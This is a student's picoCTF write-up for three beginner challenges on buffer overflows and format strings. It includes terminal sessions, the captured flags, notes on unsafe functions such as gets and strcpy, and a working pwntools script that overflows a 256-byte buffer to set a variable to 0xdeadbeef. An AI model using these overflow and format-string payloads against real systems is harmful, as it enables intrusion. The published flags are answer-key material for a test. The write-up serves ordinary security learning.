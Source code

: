 # 1. buffer overflow 0
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:
- once i connected to the server using nc and typed out a random input the file exited for each and every input so then i moved on and opened the source code. 
- the name of the file was vuln which potentially stands fro vlunerable dn saw a function called sigsev which i searched up and figured out that it stands for segmentation fault(more in notes)
- so in the main fucntion the program runs and a segmentation handler is set up which ideally should crash the program in case such event occurs but it was set up as flag being printed if the event occurs so we move down and see that there is a buffer1 created which takes in a 100 character input and a vuln function is called which takes the input and copies it to a character buffer2 but it has been assigned only memeory for 16 characters to potentitally giving an input of more than 16 characters calls the sigsev function and hence th flag was printed on the terminal

```
dhiraj@DESKTOP-361HESD:~$ nc saturn.picoctf.net 62991
Input: 12345
The program will exit now
w
dhiraj@DESKTOP-361HESD:~$ nc saturn.picoctf.net 62991
Input: sdfsdfvmfhidkfmvnbfdhsjaksdcndhsjakl
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
## Concepts learnt:
- SIGSEGV (signal segmentation violation) is an error signal. the error appears when a program or code tries to access an invalid memory location and eventually sends a signal which causes the program to crash.
- in binary exploitation strcpy and gets are not safe to use. The manual pages for the functions (man 3 strcpy and man 3 gets) have warnings advising against using them.
- Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and gets() will continue to store characters past the end of the buffer.
## Resources:
- [about sigsegv](https://phoenixnap.com/kb/sigsegv)

***


# 2. format string 0
Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.

## Solution:
- like the previous challenge the goal was to trigger he segmentation fault since it has been set to print the flag in such case.
- so now when i using netcat and connected to the server it printed out a menu for me to choose out of three options and since the name of the challenge is format strings and we learnt about that in our pps classes the grilled cheese burger had a %114 embedded in it while when we selected the other two options the server just printed is more hungry and ended the program so like we gussed selecting grilled cheese took us to the next step of the program. the program only goes to the next step if and only if count of the slected choice is twice of the size of buffer and since size of buffer is 32 the system makes sure the size is greater than 64 bytes
- now count variable is equal to number of printed characters and it was expecting 114 characters and since there was no number it print in space or null and then called the serve bob function
- in this function the classical cheesesteak consisted of an embedded %s format string and when printf processes it without any argument it accesses the memory randomly and this triggers the segmenatation error and prints the flag

```
dhiraj@DESKTOP-361HESD:/mnt/c/Users/user/downloads$ nc mimas.picoctf.net 52882
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
## Concepts learnt:
- SIGSEGV (signal segmentation violation) is an error signal. the error appears when a program or code tries to access an invalid memory location and eventually sends a signal which causes the program to crash.
- format specifiers are very important in c and should be dealt carefully with respect to writing code and one of the most important ascpects is to read the source code properly and understand where the loopholes exist so that we can exploit them and obtain flags

## Resources:
- [about sigsegv](https://phoenixnap.com/kb/sigsegv)
- [format strings in c](https://www.w3schools.com/c/c_variables_format.php)

***


# 3. clutter overflow
- we should find a possible vulnerability in the script and obtain the flag

## Solution:
- so one of the main vulnerabilities in this file is the gets commands which takes the input of the clutter and even in the manual of gets the biggest bug is that it takes more input than the required or designed size and can lead to overflow so first i try out by typing random characters and the code always prints out 0 as initiated.
- so to understand this more i tried exploring stack as it was one aspect (more in concepts) where the variables are stored so first code is initiated so the bottom part goes to code of 8 bytes followed by the character array clutter which holds 256 bytes and when we input more than 256 bytes like seen in the terminal prompt below the code value is the value of characters of ascii converted to hexa decimal in the reverse order so now our goal is to use this and make the value of code equal to deadbeef.
- so now at first i typed out 256 a's and saw that the python code value returned 0 and the same happend for 264 characters as a well so then after some searching i searched up learn about some form of cover which is of 8 bytes and when i typed 264 a's and random characters and observed that the ascii value of the characters was converted to hex and printed in the reverse order but for us to make code equal to deadbeaf.
- i spent researching about pwn tools and understood they are tools that are used in ctfs so then i prepared a script using resources where i read the message printed by the server and then sent an input which consists of 264 a's and then deadbeef encoded in the raw byte form which eventually prints the flag

```
My room is so cluttered...
What do you see?
123456
code == 0x0
code != 0xdeadbeef :(

My room is so cluttered...
What do you see?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaqwert
code == 0x7472657771
code != 0xdeadbeef :(

from pwn import *

nc_connection = remote('mars.picoctf.net', 31890)

limit = b'A' * 264
value_code = p64(0xdeadbeef)
final_input = limit + value_code

log.info("Receiving information")
nc_connection.recvuntil(b'What do you see?')

log.info("Sending the input")
nc_connection.sendline(final_input)

log.success("output sent.")
nc_connection.interactive()

```

## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Concepts learnt:
- read the manual and gets and fgets and we can see that fgets reads one characters less than the value set because fgets gets terminated by the /0 byte is stored in the last character of the buffer
- each byte is represeted by two hex characters and the system reads files the other way around and the slash tells the terminal to read them as actual characters, as raw binary data and not as ascii values
- i learnt a lot about pwn tools and how each individual command is helpful for communication with the server and many individual commands listen in the docs below.

## Resources:
- [stack organisation](https://www.geeksforgeeks.org/computer-organization-architecture/memory-stack-organization-in-computer-architecture/)(https://www.geeksforgeeks.org/compiler-design/storage-allocation-strategies-in-compiler-design/)
-[about pwn tools](https://docs.pwntools.com/en/stable/about.html)(https://github.com/Gallopsled/pwntools)

***
